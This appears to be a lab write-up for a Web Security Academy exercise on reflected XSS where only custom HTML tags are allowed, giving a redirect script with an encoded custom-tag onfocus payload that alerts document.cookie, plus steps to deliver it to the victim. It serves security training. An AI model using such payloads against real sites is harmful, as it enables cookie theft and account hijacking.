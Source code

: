 ### Reflected XSS into HTML context with all tags blocked except custom ones

```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
``` 

    
Click "Store" and "Deliver exploit to victim".

This injection creates a custom tag with the ID x, which contains an onfocus event handler that triggers the ```alert``` function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called.
